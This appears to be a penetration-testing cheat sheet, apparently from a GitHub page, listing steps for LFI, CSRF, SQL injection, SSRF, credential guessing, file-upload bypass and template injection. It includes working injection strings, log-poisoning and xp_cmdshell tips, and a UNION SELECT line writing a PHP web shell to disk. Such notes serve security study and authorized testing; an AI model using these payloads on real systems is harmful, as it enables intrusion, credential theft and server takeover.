 ﻿
### **LFI:**
1. cat /etc/passwd
2. cat **service config** files
3. **Upload** a reverse shell and **locate** it
4. **Chain** with **file upload** (FTP/Redis/Web console)
5. Check /etc/**knockd**
6. **/proc/self/environ** (shell in user-agent)
7. **Apache log poisoning** (shell in **user-agent**)

### **CSRF**
1. Try to test **POST to GET** conversion and vice versa
9. **Send GET link** for sensitive action in any form that goes to another user
10. Generate **CSRF PoC** and **upload**

### **SQLi:**
1. **Pentestmonkey** cheatsheet
12. Try *admin'#* (**valid username**, see netsparker sqli cheatsheet)
13. Try *abcd' or 1=1;-*-
14. Use *UNION SELECT null,null*,.. instead of 1,2,.. to **avoid type conversion**
errors
15. For **mssql**,
	1. **xp_cmdshell**
	2. Use **concat** for listing 2 or more column data in one
16. For **mysql**,
	1. **udf**
	2. See banzai for UDF exploit issues
	3. try *a' or 1='1 -- -*
	4. A' union select *"<?php system($_GET['cmd']); ?>" into* **outfile**
	*"C:\xampp\htdocs\run.php" -- -'*
	

### **SSRF:**
1. Try to open **other subdomains**
22. Bypass restrictions with **case switching**
23. Use **other protocols**, file://, ftp (single line http like auth and access,
ftp://user:pass@server/path
24. Try **inline meta chars** $(),\`

### **Creds:**
1. **Default** username/passwords
26. Username as default **password as service name**
27. Default username and password **bruteforce**
28. Password **reuse**
29. **Null** password
30. Check **config files**
31. Generate custom wordlist with **cewl** (--with-numbers)
32. Use **hashcat rules** if hints point to it, (-r rule_path, **best64** should work)

### **File Upload:**
1. **Change mime** type
34. Add **image headers**
35. Add payload in **exiftool** **comment** and name file as file.php.png
 
### **SSTI:**
1. Identify with **tplmap.py**
38. Use SSTI -> RCE
39. Use SSTI **chart** to identify template engine
